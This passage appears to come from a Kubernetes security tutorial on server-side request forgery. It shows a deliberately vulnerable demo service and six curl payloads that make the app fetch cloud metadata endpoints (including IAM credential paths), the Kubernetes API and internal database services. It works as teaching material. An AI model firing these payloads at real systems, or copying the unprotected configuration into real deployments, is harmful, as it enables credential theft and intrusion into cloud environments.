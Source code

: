```yaml
        - name: ENVIRONMENT
          value: "demo"
        # ❌ No network policies = can access anything
        # ❌ No egress filtering = can reach metadata APIs
        # ❌ No input validation = SSRF vulnerability
---
apiVersion: v1
kind: Service
metadata:
  name: vulnerable-ssrf-service
  namespace: security-demo
spec:
  selector:
    app: vulnerable-ssrf
  ports:
  - port: 80
    targetPort: 80
  type: ClusterIP
```

#### SSRF Attack Payload Examples
```bash
# Attack 1: AWS EC2 Metadata Service
curl "http://vulnerable-app/fetch?url=http://169.254.169.254/latest/meta-data/"

# Attack 2: IAM Role Credentials
curl "http://vulnerable-app/fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"

# Attack 3: Azure Instance Metadata
curl "http://vulnerable-app/fetch?url=http://169.254.169.254/metadata/instance?api-version=2021-02-01" -H "Metadata:true"

# Attack 4: GCP Metadata Service
curl "http://vulnerable-app/fetch?url=http://metadata.google.internal/computeMetadata/v1/instance/" -H "Metadata-Flavor: Google"

# Attack 5: Kubernetes API Server Discovery
curl "http://vulnerable-app/fetch?url=https://kubernetes.default.svc.cluster.local/"

# Attack 6: Internal Service Enumeration
curl "http://vulnerable-app/fetch?url=http://database-service.production.svc.cluster.local:5432/"
```

### Scenario 2: Internal Service Discovery and Exploitation

#### Discovering Internal Services via SSRF
```yaml
# Internal database service (typical production setup)
apiVersion: v1
kind: Service
metadata:
  name: internal-database
  namespace: production
spec:
  selector:
    app: postgres
  ports:
  - port: 5432
    targetPort: 5432
  type: ClusterIP  # Internal only, but accessible via SSRF
---
# Admin API service (should be internal only)
```